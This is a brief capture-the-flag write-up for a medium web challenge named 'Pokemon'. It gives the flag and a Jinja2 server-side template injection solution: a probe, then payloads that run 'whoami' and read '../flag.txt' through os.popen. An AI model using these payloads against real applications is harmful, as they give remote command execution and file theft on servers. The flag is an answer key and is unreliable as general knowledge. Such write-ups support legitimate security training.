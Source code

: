 # Pokemon
Category: Web

Difficulty: Medium

### Description
Hãy cùng nhau chọn ra 1 người bạn đồng hành trong hành trình sắp tới tại clb E nào.

### Flag
EHCTF(g0tt4c_c4tch_3m_4ll)

### Concept
SSTI

### Writeup
`{{7*7}}`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami`

`{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt`
